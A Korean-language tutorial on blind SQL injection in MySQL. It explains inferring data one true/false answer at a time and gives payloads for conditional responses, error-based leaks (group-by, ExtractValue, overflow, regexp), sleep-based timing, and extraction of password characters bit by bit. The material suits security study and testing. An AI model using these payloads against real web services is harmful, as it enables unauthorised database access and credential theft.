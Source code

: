 # Blind sql injection

## 개요

blind sql injection이란, sql injection은 가능하지만 query의 결과를 볼 수 없거나, 혹은 아주 제한적으로만 보일 경우에 사용되는 테크닉이다. 이러한 상황에서는 굉장히 제한적인 정보만이 주어진다. 가령 매치되는 결과가 있으면 있다고 보여주고, 없으면 없다고 보여주는 웹 서비스가 있다고 해 보자. 쿼리는 대충 이럴 것이고..

```sql
select count(*) from table where id='your input'
```

결과가 1 이상이면 그렇다는 대답이 돌아올 것이다. 이렇게 된 이상 우리가 인젝션을 해서 쿼리를 잘 짜도 한 번에 얻을 수 있는 정보는 그렇다/아니다 둘 뿐이다.

따라서 blind sql injection에서는 기본적으로 여러 번의 쿼리를 통해 db랑 스무고개를 한다. 한번의 쿼리로 알 수 있는 정보가 어떤 문장의 참/거짓 뿐이니까, 예컨대 아래와 같이 하는 것이다.

* 패스워드의 첫번째 글자가 'a'이니? -> 아니
* 패스워드의 첫번째 글자가 'b'이니? -> 아니
* 패스워드의 첫번째 글자가 'c'이니? -> 응
* 패스워드의 두번째 글자가 'a'이니? -> 아니
* ....
* 다 구할 때까지 반복

이는 모든 blind sql injection의 기본 원리가 된다.


## 기본 틀 짜기

### 화면으로 참 거짓은 구분할 수 없을 때

내가 원하는 statement의 결과에 따라 화면에 보여지는 결과가 다르게 나오도록 인젝션 구문을  만들면 된다.

```sql
select * from table where id=if(statement, 1,2)
```
이런 경우 statement가 참이면 1번 id에 해당하는 결과물, 거짓이면 2번 id에 해당하는 결과물이 보여질 것이다.

```sql
select * from table where id=0 or statement
```
이것도 비슷하다.

### 화면으로 결과를 알 수 없으나 error가 보일 때

#### group-by infoleak

```sql
select * from table where col=1 in (select min(@:=1)from (select 1 union select 2)k group by concat(version(),@:=@-1));
```

`ERROR 1062 (23000): Duplicate entry '5.5.38-0ubuntu0.12.04.10' for key 'group_key'`

#### xpath infoleak

```sql
select * from table where col=1 and ExtractValue(1, concat(0x5c, (select @@version)))
```

`ERROR 1105 (HY000): XPATH syntax error: '\5.5.38-0ubuntu0.12.04.1'`

constant에 대해서만 수행한다는 약점이 있다.

> mysql의 constant 정의는 좀 신박한데 자세한 내용에 대해서는 [이곳](http://dev.mysql.com/doc/internals/en/optimizer-constants-constant-tables.html) 참조. 일반적인 select 구문에 대해서는 문제없다고 생각해도 좋으나 해당 테이블의 컬럼을 바로 참조할 수는 없음 

#### error-based blind sql injection

mysql은 쿼리를 대체로 eager하게 evaluate하기 때문에 조건부로 에러가 나는 경우가 잘 없지만 몇몇 예외 케이스들이 있다. statement 자리에 원하는 조건문을 넣고 error의 여부로 참거짓을 판단. 

* more than one row error

```sql
select * from table where col=if(statement, (select 1 union select 2), 0);
```

```sql
select * from table where col=if(statement, (select 1 from information_schema.tables), 0);
```

* overflow

```sql
select * from table where col=if(statement, pow(50,500), 0);
```

* regexp

```sql
select * from table where name=if(statement, (1 regexp 0x28), 0);
```

### error도 안 보일 때

#### time-based blind sql injection

statement 자리에 원하는 조건문을 넣고 response time을 재서 참거짓을 판단.

* sleep

```sql
select * from table where col=if(statement, sleep(3), 0);
```

그 밖에 benchmark를 활용하는 방법도 있지만 경험상 딱히 쓸 일이 생겼던 적은 없었다.

## 조건문 만들기

### 기본 

string으로 된 value를 빼낸다고 했을 때 대체로 한 글자씩 맞추는 방법을 쓰게 된다.

```sql
(mid((select password from table limit 1),index,1)=='a')
```
이건 어떤 target의 `index`번째 글자가 `'a'`인지를 알려주는 대표적인 조건문.

변형은 많이 있다. 대표적으로 아래와 같은 경우..

```sql
(select password from table limit 1)>0x61
(select password from table limit 1)>0x6162
(select password from table limit 1)>0x616265
...
```
이건 부등호를 통한 string comparision을 이용한 것이다. 주로 필터링이 많이 되어 있을 때 씀.

### 응용

위처럼 무식하게 하나씩 해보면서 맞추면 후보군이 알파벳 소문자뿐이라고 해도 한 글자당 26번의 쿼리가 소요된다. 그러나 아스키 코드 한 글자는 8비트이므로 비트 단위로 맞추면 쿼리를 8번만 해도 한 글자를 맞출 수 있다.

```sql
(substr(lpad(bin(ascii(substr(target, i, 1))),8,0), j, 1) = 0x31)
```

대강 설명하자면 target의 `i`번째 글자를 8자리 2진수로 나타낸 다음 다시 각 `j`번째 자리가 1인지를 검사하는 것이다.

물론 이게 싫다면 binary search를 해도 되지만 아마 그게 더 귀찮을 것이다..


## 코딩하기

이제 입맛대로 코딩만 하면 된다. for문이랑 http request  보내고 받아오는 법만 알면 됨

## 주의

모든 쿼리는 filter evasion을 고려 안하고 만들어졌으며 읽는이가 알아서 해야 함
